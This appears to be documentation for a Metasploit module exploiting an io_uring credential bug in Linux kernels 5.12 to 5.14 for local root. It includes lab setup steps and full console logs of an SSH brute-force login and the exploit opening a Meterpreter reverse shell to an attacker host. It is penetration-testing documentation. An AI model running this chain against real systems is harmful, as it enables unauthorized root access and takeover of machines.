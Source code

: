 ## Vulnerable Application

This module exploits a bug in io_uring leading to an additional `put_cred()`
that can be exploited to hijack credentials of other processes.

We spawn SUID programs to get the free'd cred object reallocated by a
privileged process and abuse them to create a SUID root binary ourselves
that'll pop a shell.

The dangling cred pointer will, however, lead to a kernel panic as soon as
the task terminates and its credentials are destroyed. We therefore detach
from the controlling terminal, block all signals and rest in silence until
the system shuts down and we get killed hard, just to cry in vain, seeing
the kernel collapse.

The bug affected kernels from v5.12-rc3 to v5.14-rc7.

More than 1 CPU is required for exploitation.

Successfully tested against Ubuntu 22.04.01 with kernel 5.13.12-051312-generic

### Install

To install a vulnerable kernel on Ubuntu 22.04.01, follow these instructions:

1. Download the `linux-*` modules for a vulnerable kernel, such as https://kernel.ubuntu.com/~kernel-ppa/mainline/v5.13.12/amd64/
2. Install `libssl.1` (https://askubuntu.com/a/1403683)
   1. `echo "deb http://security.ubuntu.com/ubuntu focal-security main" | sudo tee /etc/apt/sources.list.d/focal-security.list`
   2. `sudo apt-get update`
   3. `sudo apt-get install libssl1.1`
   4. `sudo rm /etc/apt/sources.list.d/focal-security.list`
3. `sudo apt-get install build-essential`
4. `sudo dpkg -i *.deb`
5. Follow [these instructions](https://gist.github.com/chaiyujin/c08e59752c3e238ff3b1a5098322b363) to boot the vuln kernel
6. `sudo reboot`

## Verification Steps

1. Start msfconsole
2. Get an initial user shell
3. Do: `use linux/local/cve_2022_1043_io_uring_priv_esc`
4. Do: `set session #`
5. Do: `run`
6. You should get a root shell.

## Options

## Scenarios

### Ubuntu 22.04.01 with kernel 5.13.12-051312-generic

Gain initial user access

```
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(scanner/ssh/ssh_login) > set rhosts 1.1.1.1
rhosts => 1.1.1.1
msf auxiliary(scanner/ssh/ssh_login) > set username ubuntu
username => ubuntu
msf auxiliary(scanner/ssh/ssh_login) > set password ubuntu
password => ubuntu
msf auxiliary(scanner/ssh/ssh_login) > run
[*] 1.1.1.1:22 - Starting bruteforce
[+] 1.1.1.1:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd) Linux ubuntu2204 5.13.12-051312-generic #202108180838 SMP Wed Aug 18 08:41:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (2.2.2.2:40003 -> 1.1.1.1:22) at 2022-11-25 08:47:08 -0500
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...
id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
^Z
Background session 1? [y/N]  y
```

priv esc

```
msf auxiliary(scanner/ssh/ssh_login) > use linux/local/cve_2022_1043_io_uring_priv_esc
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/cve_2022_1043_io_uring_priv_esc) > set session 1
session => 1
msf exploit(linux/local/cve_2022_1043_io_uring_priv_esc) > set verbose true
verbose => true
msf exploit(linux/local/cve_2022_1043_io_uring_priv_esc) > exploit
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: 
[*] Started reverse TCP handler on 2.2.2.2:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Kernel version 5.13.12-051312-generic appears to be vulnerable
[+] The target is vulnerable. > 1 CPU required, detected: 2
[+] gcc is installed
[*] Live compiling exploit on system...
[*] Max line length is 65537
[*] Writing 8074 bytes in 1 chunks of 29166 bytes (octal-encoded), using printf
[*] Writing '/tmp/.5wGdoS' (282 bytes) ...
[*] Max line length is 65537
[*] Writing 282 bytes in 1 chunks of 843 bytes (octal-encoded), using printf
[*] Launching exploit...
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 1.1.1.1
[*] [~] forking helper process...
[+] Deleted /tmp/.iMpuegK0
[+] Deleted /tmp/.5wGdoS
[*] Meterpreter session 2 opened (2.2.2.2:4444 -> 1.1.1.1:35026) at 2022-11-25 17:18:36 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 1.1.1.1
OS           : Ubuntu 22.04 (Linux 5.13.12-051312-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
